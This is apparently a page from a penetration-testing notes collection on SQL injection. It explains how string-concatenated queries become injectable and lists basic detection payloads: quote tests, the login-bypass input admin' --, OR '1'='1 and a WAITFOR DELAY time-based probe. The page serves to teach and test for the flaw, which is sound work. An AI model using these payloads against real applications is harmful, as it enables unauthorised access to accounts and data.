 ```yaml
---
title: SQL Injection
category: Web-Attacks
tags: [recon, exploit, webvuln, sql, payload]
tools: ['sqlmap', 'nuclei']
---
```


# SQL Injection

**SQL Injection (SQLi)** is a web security vulnerability that allows an attacker to interfere with the queries that an  application makes to its database. It enables attackers to view, modify, or delete data they are not normally able to access.

## How

SQL injection occurs when an application builds SQL queries by  concatenating strings that include user-supplied data. When this input  isn't properly sanitized, attackers can modify the query's logic. For  example, in the query:

```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```

An attacker might input: `admin' --`, changing the query to:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'input'
```

This commenting out the password check entirely.

## Detection

### Manual Testing

#### Quote Tests

Tests for SQL parsing errors by injecting different types of quotes:

```sql
# Quote tests - Testing for SQL parsing errors
username'   # Single quote - Most common SQL injection test
username"   # Double quote - Used in some database types
username`   # Backtick - Mainly for MySQL identifier injection
```

#### Logic Tests

Verifies query manipulation possibilities through boolean logic:

```sql
username' OR '1'='1   # Always true condition, often bypasses authentication
username' AND '1'='2  # Always false condition, verifies boolean responses
username' WAITFOR DELAY '0:0:5'--  # Time-based test, checks for blind injection
```

